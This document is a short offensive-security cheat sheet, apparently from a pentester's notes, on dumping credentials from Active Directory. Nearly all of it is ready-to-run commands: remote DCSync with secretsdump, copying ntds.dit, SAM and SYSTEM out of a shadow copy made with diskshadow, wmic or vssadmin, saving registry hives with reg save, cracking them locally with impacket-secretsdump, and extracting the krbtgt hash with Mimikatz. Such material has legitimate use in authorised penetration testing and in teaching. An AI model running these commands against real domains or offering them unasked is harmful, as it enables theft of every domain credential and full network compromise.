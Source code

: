 # Active Directory

### DCSync

#### Remote with secretsdump

```bash
secretsdump.py <domain>/<user>:<pass>@<rhost>
```

### NTDS, SAM, SYSTEM

Make a shadowcopy first via diskshadow.exe and copy out "c:\windows\ntds\ntds.dit":

```bash
set context persistent nowriters
add volume c: alias xct
create
expose %xct% z:
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\programdata\ntds.dit
delete shadows volume %xct%
reset
```

When getting weird line endings errors, put everything in a txt file and run diskshadow /s . Alternatively you can create the shadowcopy via:

```text
wmic shadowcopy call create Volume='C:\'
vssadmin list shadows
```

Then you can use the Path, e.g. `\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1` to access it and copy out \windows\system32\config\SAM and \windows\system32\config\SYSTEM.

 Dump:

```bash
impacket-secretsdump -system SYSTEM -ntds ntds.dit LOCAL
```

SAM/System can also be dumped via registry:

```text
reg save hklm\sam c:\temp\sam.save
reg save hklm\system c:\temp\system.save

secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

### Krbtgt hash on DC

```bash
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName <dc>
```

